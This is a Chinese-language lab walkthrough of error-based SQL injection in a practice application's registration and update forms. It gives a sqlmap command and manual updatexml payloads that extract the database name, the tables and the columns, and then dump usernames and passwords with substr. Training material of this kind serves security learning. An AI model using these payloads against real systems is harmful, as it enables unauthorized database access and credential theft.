






# insert／update注入

　　**报错注入**

　　在注册页面框内把注册页面必填项填了便可以在输入框中进行报错注入，同样update页面同理

　　这里用sqlmap跑

　　在注册时，我们进行抓包

　　将post请求复制下来

　　**username=1&amp;password=2&amp;sex=&amp;phonenum=&amp;email=&amp;add=&amp;submit=submit**

　　使用sqlmap

　　**sqlmap -u "http://192.168.1.132:667/vul/sqli/sqli_iu/sqli_reg.php" --data** "**username=1&amp;password=2&amp;sex=&amp;phonenum=&amp;email=&amp;add=&amp;submit=submit**"

　　sqlmap是可以的

　　试试手工注入 将刚刚抓包的数据发到repeater上

　　便可以注入了

　　发现是字符型注入 并且需要''

　　这里我们使用updatexml函数进行注入

　　注：这里如说**使用updatexml来查询表中数据时，会出现查询数据不完整的问题**，

　　解决方案：

　　可以**使用limit来限制查询个数，来一个一个查询，也可以使用group_concat时使用substr进行字符串截取 其中"1，32"控制截取的起始与结束位置：**

　　查询当前数据库：

　　**username=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and'**

　　 查询所有表：

　　**username=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) and'**

　　查询所有字段名：

　　**username=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) and'**

　　查询数据：

　　因为查询出的密码不能完全显示，所以我们这里再使用一个substr函数，进行字符串的截取

　　**username=1'and updatexml(1,concat(0x7e,substr((select group_concat(id,':',username,':',password) from users),1,31),0x7e),1) and'**

